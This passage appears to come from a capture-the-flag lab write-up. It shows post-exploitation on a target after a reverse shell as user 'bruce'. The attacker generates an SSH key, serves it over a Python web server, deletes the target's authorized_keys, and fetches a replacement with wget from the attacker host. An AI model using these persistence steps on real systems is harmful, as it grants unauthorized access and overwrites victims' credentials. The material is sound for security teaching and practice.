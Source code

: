 And we have a reverse shell as `bruce` !

## Linux enumeration

First, let's get a better shell. We can write our own SSH public key in `/home/bruce/.ssh` to connect using SSH. First, let's generate a pair of SSH keys :  
```
attacker@AttackBox:~/Devie/math$ ssh-keygen -f id_rsa
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in id_rsa
Your public key has been saved in id_rsa.pub
The key fingerprint is:
SHA256:d/cGgbt6GViHj+KQo0FlqcV1ZTnW87WBmCqfoDZhGPs attacker@AttackBox
The key's randomart image is:
+---[RSA 3072]----+
|       . o. +.+o |
|   .    *  + ++oo|
|    +  =  . .o..*|
|   o ooo .  o..o.|
|    o.o S.ooo+o  |
|     E. ++o.oo.o |
|    . .o + ..o  o|
|      .   ..o  . |
|          ..     |
+----[SHA256]-----+
```

Now let's rename the file `id_rsa.pub` to `authorized_keys` and run a temporary web server using python3 :  
```
attacker@AttackBox:~/Devie/math$ mv id_rsa.pub authorized_keys
attacker@AttackBox:~/Devie/math$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Now, we can remove the old file on the target and download our own public key :  
```
$ cd /home/bruce/.ssh
cd /home/bruce/.ssh
$ rm authorized_keys
rm authorized_keys
$ wget http://10.14.32.60:8080/authorized_keys
wget http://10.14.32.60:8080/authorized_keys
--2023-04-09 17:15:12--  http://10.14.32.60:8080/authorized_keys
Connecting to 10.14.32.60:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 572 [application/octet-stream]
Saving to: ‘authorized_keys’

authorized_keys     100%[===================>]     572  --.-KB/s    in 0s      

2023-04-09 17:15:12 (51.8 MB/s) - ‘authorized_keys’ saved [572/572]

$ ls
ls
authorized_keys
```
